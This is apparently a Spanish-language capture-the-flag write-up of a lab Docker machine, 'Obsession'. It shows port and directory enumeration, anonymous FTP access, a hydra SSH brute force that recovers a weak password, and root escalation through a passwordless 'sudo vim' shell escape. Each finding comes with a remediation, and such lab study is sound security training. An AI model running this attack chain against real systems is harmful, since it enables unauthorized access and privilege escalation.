










# 🛡️ Writeup — Máquina "Obsession"

**IP objetivo:** `172.17.0.2`
**Entorno:** Docker (laboratorio), tipo Black Box
**Servicios expuestos:** `21 (FTP)`, `22 (SSH)`, `80 (HTTP)`

---

## 📌 Resumen Ejecutivo

> [!NOTE]
> Compromiso total del sistema (acceso root) mediante una cadena de vulnerabilidades: FTP anónimo, exposición de información sensible, credenciales débiles reutilizadas y mala configuración de `sudo`.

**Metodología:** Enumeración → Acceso inicial → Escalada de privilegios.

---

## 🔍 1. Reconocimiento

```bash
nmap -p- --open -sS -sC -sV -T4 -n -Pn 172.17.0.2
```

| Puerto | Servicio | Versión | Notas |
|---|---|---|---|
| 21 | FTP | vsftpd 3.0.5 | Anónimo permitido |
| 22 | SSH | OpenSSH 9.6p1 | Accesible |
| 80 | HTTP | Apache 2.4.58 | Web activa |


*Escaneo de puertos con Nmap*


*Despliegue del contenedor y obtención de la IP objetivo*

### Enumeración web
```bash
gobuster dir -u http://172.17.0.2 -w directory-list.txt -x php,html,txt,log,bak
```
Directorios encontrados: `/backup`, `/important`


*Servicio web en el puerto 80 ("russoski coaching")*

En el código fuente:
```html
<!-- Utilizando el mismo usuario para todos mis servicios -->
```

*Código fuente: usuario reutilizado en todos los servicios*

> [!WARNING]
> Indica reutilización de credenciales

---

## 🚩 Hallazgos

### 🟡 H1: FTP anónimo + exposición de archivos sensibles

**Severidad:** Media

**Resumen:** El servicio FTP permite acceso anónimo sin restricciones, exponiendo archivos que revelan el nombre de un usuario del sistema y una pista sobre una configuración de privilegios insegura.

**PoC**
```bash
ftp 172.17.0.2
# Usuario: anonymous — Acceso permitido
```

*Acceso FTP anónimo y listado de archivos*

Archivos encontrados: `chat-gonza.txt`, `pendientes.txt`

**chat-gonza.txt** — usuario identificado: `russoski`

*Contenido de chat-gonza.txt*

**pendientes.txt** — *"tengo ciertos permisos habilitados que no son del todo seguros"*

*Contenido de pendientes.txt (pista de permisos inseguros)*

> [!CAUTION]
> Posible escalada de privilegios anticipada por la propia víctima en sus notas.

**Impacto:** Fuga de nombre de usuario válido y anticipo de una vulnerabilidad de escalada de privilegios.

**Recomendación:** Deshabilitar FTP anónimo.

---

### 🟠 H2: Fuerza bruta SSH con usuario reutilizado (`russoski`)

**Severidad:** Alta

**Resumen:** Con el usuario `russoski` identificado en H1 (y confirmado como reutilizado en todos los servicios vía el código fuente web), el servicio SSH acepta autenticación por contraseña sin límite de intentos.

**PoC**
```bash
hydra -l russoski -P rockyou.txt ssh://172.17.0.2
```
Credenciales obtenidas: `russoski` / `iloveme`


*Credenciales obtenidas con Hydra*

```bash
ssh russoski@172.17.0.2
whoami
# russoski
```

*Acceso SSH inicial como russoski*

**Impacto:** Acceso inicial al sistema.

**Recomendación:** Usar contraseñas robustas; evitar reutilización de credenciales entre servicios.

---

### 🔴 H3: Escalada de privilegios vía `sudo` sobre Vim (NOPASSWD)

**Severidad:** Crítica

**Resumen:** El usuario `russoski` puede ejecutar Vim como root sin contraseña, permitiendo obtener una shell root mediante la función de escape a shell del editor (GTFOBins) — exactamente la debilidad anticipada en `pendientes.txt` (H1).

**Detalle / Causa raíz**
```bash
sudo -l
```
```
(root) NOPASSWD: /usr/bin/vim
```

**PoC**
```bash
sudo vim
```
Dentro de vim:
```vim
:!bash
```
```bash
whoami
# root
```

*Escalada a root vía sudo vim (GTFOBins)*

**Impacto:** Compromiso total del sistema.

**Recomendación:** Revisar sudoers; nunca otorgar `sudo` sobre binarios interactivos con capacidad de escape a shell.

---

## 🔗 Cadena de ataque

```text
FTP anónimo → archivos sensibles (usuario russoski) → reutilización de credenciales →
fuerza bruta SSH → sudo vim NOPASSWD → root
```

---

## 🛡️ Recomendaciones generales

- Deshabilitar FTP anónimo.
- Usar contraseñas robustas.
- Evitar reutilización de credenciales.
- Revisar sudoers; aplicar mínimo privilegio.

---

## 🧾 Conclusión

> [!NOTE]
> El sistema es comprometido mediante una cadena de vulnerabilidades comunes, destacando fallos en la gestión de credenciales y privilegios: FTP anónimo, reutilización de usuario, contraseña débil y mala configuración de sudo.

**Nivel:** Fácil – Intermedio · **Técnicas clave:** Enumeración, Credential attack, Privilege escalation.
